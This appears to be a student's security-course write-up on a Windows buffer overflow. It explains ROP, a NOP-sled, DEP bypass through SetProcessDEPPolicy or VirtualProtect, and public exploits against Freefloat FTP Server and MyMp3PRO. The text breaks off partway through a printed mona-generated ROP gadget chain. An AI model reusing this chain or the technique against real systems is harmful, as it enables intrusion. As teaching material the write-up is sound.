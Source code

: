 ## Assignment 5

It uses a buffer overflow attack to initiate a ROP attack.

It uses known-location code to modify the stack and stack pointer to be
able to point it to a NOP-sled that ends in the shell code.

## Assignment 6

No, DEP is not enabled because we can write to the stack but then also
execute from it.

## Assignment 7

There are at least 2 ways that we could find to circumvent the DEP
protection. The first exploit uses the inbuilt function
`SetProcessDEPPolicy` that overrides the system set DEP policy<sup>[1](#c1)</sup>. The
exploit is targeted at Freefloat FTP Server 1.0 and does a DEP Bypass
with ROP<sup>[2](#c2)</sup>. The other exploit we found is targeted at Steinberg
MyMp3PRO 5.0 and uses a Buffer Overflow (SEH) with a DEP Bypass and ROP.
The exploit is local and as such creates a file that the program then
loads, because the program loads the MP3 files and then executes them
the DEP protection does not work.

Probably by finding a address with `SetProcessDEPPolicy` to disable the
DEP protection. There are other functions that we can use to disable DEP
protection, the Mona plugin for the Immunity debugger will help us find
a suitable ROP chain to bypass DEP.

# Part B

## Assignment 8

### Attempt 1

We ran mona in the Immunity debugger with the command:
`!mona rop -cbp ’0x00’ -m *.dll` and got the rop chain below. However,
when we ran it with the `-rva` parameter to circumvent ASLR the
execution took over 1h and we did not get any useful results.

```python
  def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x75c88a06,  # POP ECX # RETN [OLEAUT32.dll] ** REBASED ** ASLR 
      0x758a0928,  # ptr to &VirtualProtect() [IAT kernel32.dll] ** REBASED ** ASLR
      0x7676fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_ebp:---]
      0x766ba513,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x7618f8ab,  # & jmp esp [urlmon.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ebx:---]
      0x768d19ca,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x76c39b64,  # NEG EAX # RETN [SHELL32.dll] ** REBASED ** ASLR 
      0x7610fa47,  # XCHG EAX,EBX # RETN [urlmon.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_edx:---]
      0x759425bd,  # POP EAX # RETN [kernel32.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x768b2f3a,  # NEG EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x751dd33b,  # XCHG EAX,EDX # RETN [COMCTL32.dll] ** REBASED ** ASLR 
```